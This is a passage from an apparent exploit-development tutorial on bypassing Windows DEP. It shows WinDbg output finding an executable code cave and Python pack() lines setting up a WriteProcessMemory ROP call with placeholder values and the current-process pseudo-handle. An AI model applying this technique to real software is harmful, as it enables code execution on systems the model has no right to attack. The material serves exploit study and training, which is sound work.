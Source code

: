 ```python
0:004> dd processname + **virtualSize** + virtualAddress 

0:004> !vprot address
AllocationProtect: 00000080  PAGE_EXECUTE_WRITECOPY
RegionSize:        00001000
State:             00001000  MEM_COMMIT
Protect:           00000020  PAGE_EXECUTE_READ
Type:              01000000  MEM_IMAGE

```

Perfect it seems we have found a spot for our shellcode in the .text section with Execute permissions. Further calculations show we have around XXX bytes for our shellcode. We therefor proceed with our shellcode location as XXXX. 

### Shellcode Return Address

Now that we have our shellcode location, we can proceed in writing the location into the dummy address. We update our WPM as follows:

```python
va  = pack("<L", (0x41414141))  # WriteProcessMemory address
va += pack("<L", (0x42424242))  # shellcode return address to return to after WriteProcessMemory is called
va += pack("<L", (0xffffffff))  # hProcess (pseudo Process handle)
va += pack("<L", (0x44444444))  # lpBaseAddress (Code cave address)
va += pack("<L", (0x45454545))  # lpBuffer (shellcode address)
va += pack("<L", (0x46464646))  # nSize (size of shellcode)
va += pack("<L", (0x47474747))  # lpNumberOfBytesWritten (writable memory address, i.e. !dh -a MODULE)
```

### hProcess

We don’t have to do much for the `hProcess` as the parameter should point to the current process, which in our instance would then be `0xFFFFFFFF` which we already hardcoded. The `handle` parameter is quite easy to fill - we can even use a static value. According to Microsoft Docs, `[GetCurrentProcess()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getcurrentprocess)` returns a handle to the current process. More specifically, it returns a “*pseudo handle*” to the current process. A pseudo handle, denoted by -1 or `0xFFFFFFFF`, is “*special*” constant that refers to a handle to the current process. This means, whenever a Windows API function requests a handle (*generally in user mode*), passing `0xFFFFFFFF` will tell the API in question to utilize a handle to the current process. Since we would like to write our shellcode to memory within the process space - passing `0xFFFFFFFF` to the `kernel32!WriteProcessMemory` function call will tell the function we would like to write the memory to virtual memory within the current process space.

```python
#WriteProcessMemory 
va  = pack("<L", (0x45454545)) # dummy WriteProcessMemory Address
va += pack("<L", (0x42424242)) # Shellcode Return Address 0x45402e39 where our codecave in the .text area exist
**va += pack("<L", (0xFFFFFFFF)) # hProccess = handle to current process (Pseudo handle = 0xFFFFFFFF points to current process)**
va += pack("<L", (0x44444444)) # lpBaseAddress Code cave address 0x45402e39 where our codecave in the .text area exist
va += pack("<L", (0x49494949)) # # dummy lpBuffer (stack address)
va += pack("<L", (0x51515151)) # dummy nSize
va += pack("<L", (0x41414141)) # lpNumberOfBytesWritten
```
